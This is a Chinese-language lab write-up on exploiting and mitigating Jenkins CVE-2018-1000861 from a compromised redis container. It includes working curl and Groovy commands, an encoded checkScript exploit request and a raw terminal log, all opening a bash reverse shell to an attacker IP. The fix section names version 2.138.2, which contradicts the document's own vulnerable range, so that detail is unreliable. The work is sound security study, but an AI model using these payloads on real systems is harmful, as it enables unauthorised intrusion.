


# CVE-2018-1000861漏洞相关缓解与修复

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。


漏洞危害
- 获取服务器权限
- 获取敏感数据文件
- 写入恶意文件getshell
- 植入木马病毒勒索软件等

适用场景
- Jenkins主版本 <= 2.153
- Jenkins LTS版本 <= 2.138.3


## 针对攻击的不同方法：

### 直接使用redis容器进行攻击操作


在之前的攻击中，我们已经得到了redis容器内的shell的root访问权限，能够把redis的shell界面反弹到我的攻击者主机上，现在在redis的shell使用nmap扫描这个子网网段内的内容，可以扫描出三个ip地址，192.168.110.1对应的是网关，192.168.110.2对应redis容器，剩下的192.168.110.3是开启了8080和50000端口，正好对应了jenkins的两个默认开启的端口，可以说明这就是我们的攻击对象


针对之前之前攻击同学的操作，我认为可以不开代理能够直接在redis的shell中进行攻击，因为jenkins是能够主动向我的攻击者主机发起连接的，只要利用redis的shell向jenkins发送恶意漏洞利用就行

把反弹shell进行base64编码

执行exp

攻击者监听端口收到反弹shell


### 使用密码本爆破admin若口令获得管理员账号登录权限

redis能够访问jenkins，利用python脚本使用密码本进行爆破，获取到管理员用户名和密码后在redis的shell中运行下面的代码

```
JENKINS_URL="http://192.168.110.2:8080"
ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"
USERNAME="admin"
PASSWORD="admin"   

curl -X POST "$JENKINS_URL/script" \
  --user "$USERNAME:$PASSWORD" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"
```


以下是不使用账号密码信息的结果，无法获得反弹shell
```
JENKINS_URL="http://192.168.110.2:8080"
ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"   

curl -X POST "$JENKINS_URL/script" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"
```


## 漏洞利用发现与缓解

### 漏洞利用发现，针对两种不同攻击方式

#### 使用exp.py针对漏洞的攻击，



```
GET /descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=True&value=public+class+x%7Bpublic+x%28%29%7Bnew+String%28%2262617368202d63207b6563686f2c596d467a614341746153412b4a6941765a4756324c33526a634338784f5449754d5459344c6a55324c6a45774e4338784d6a4d7a4d794177506959787d7c7b6261736536342c2d647d7c7b626173682c2d697d%22.decodeHex%28%29%29.execute%28%29%7D%7D HTTP/1.1
Host: 192.168.110.2:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.27.1


HTTP/1.1 200 OK
Date: Sun, 08 Jun 2025 17:51:04 GMT
X-Content-Type-Options: nosniff
Content-Type: text/html;charset=utf-8
Content-Length: 6
Server: Jetty(9.4.z-SNAPSHOT)

<div/>
```

`GET /descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=True&value=...
`

这个 URL 是 Jenkins Script Console 中插件的参数验证接口。

/descriptorByName/.../checkScript 是 Jenkins 用来检测 Groovy 脚本合法性的接口（一般用于 UI 检查，不应被滥用执行恶意代码）。

sandbox=True 表示在沙箱中执行（但此漏洞可以逃逸沙箱或绕过限制）。

value=public class x{ public x() { ... } } 传递的是一段 Java/Groovy 类定义

沙箱中执行的内容是`new String("62617368202d63207b6563686f2c596d467a614341746153412b4a6941765a4756324c33526a634338784f5449754d5459344c6a55324c6a45774e4338784d6a4d7a4d794177506959787d7c7b6261736536342c2d647d7c7b626173682c2d697d".decodeHex()).execute()
`
Hex解码后再base64解码就是标准的反弹shell
`bash -i >& /dev/tcp/192.168.56.104/12333 0>&1
`


#### 获得用户名和密码的管理员脚本攻击


```
JENKINS_URL="http://192.168.110.2:8080"

JENKINS_URL="http://192.168.110.2:8080"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# .[K
ATTACK_IP="192.168.56.104"

ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"


.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
USERNAME="admin"

ATTACK_PORT="12333"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
PASSWORD="admin"

USERNAME="admin"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 


PASSWORD="admin"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
curl -X POST "$JENKINS_URL/script" \


.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
  --user "$USERNAME:$PASSWORD" \

curl -X POST "$JENKINS_URL/script" \
> 
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \

  --user "$USERNAME:$PASSWORD" \
>   --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
> 
  --header "Content-Type: application/x-www-form-urlencoded"

  --header "Content-Type: application/x-www-form-urlencoded"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0


  
  <!DOCTYPE html><html><head resURL="/static/03cce89a" data-rooturl="" data-resurl="/static/03cce89a">
```

```
curl -X POST "$JENKINS_URL/script" \
  --user "$USERNAME:$PASSWORD" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"

```

这段请求：
- 使用的是 Jenkins 的 脚本执行接口 /script
- 使用的是 基础认证（admin:admin）
- 执行的 Groovy 脚本中使用 .execute() 来运行 Bash 命令反弹 Shell
- 攻击目标为 $ATTACK_IP:$ATTACK_PORT，即你攻击者主机监听的反弹 shell 端口。

攻击效果判断：
```
<!DOCTYPE html><html><head ...>
<title>Jenkins</title>
...
<a href="/user/admin" class="model-link inside inverse"><b>admin</b></a>

```
说明：
- 请求成功返回了 Jenkins 页面，并且显示已登录用户为 admin
- 这意味着 认证成功 + 命令执行接口可达


### 一些缓解措施
- 使用jenkins web服务端界面对用户权限进行一些设置


- 更新和禁用风险插件


- 禁用jenkins的脚本执行功能


- 傻瓜式的一刀切方法，直接禁止redis的ip访问jenkins

写入防火墙规则禁止redis的访问


检查规则是否生效


修改后使用curl查看redis能否对jenkins进行访问，发现没有输出,再查看防火墙信息发现存在被拦截的pk包，说明redis确实发送了请求，但jenkins不进行回应


### 漏洞修复

对jenkins升级，拉取修复了漏洞版本的镜像，这里拉取了2.138.2


运行之前该容器


使用curl访问接口，发现访问漏洞存在的接口会直接跳转到用户登录界面，


在旧版本中curl进行对比，旧版本能够通过接口运行一些命令


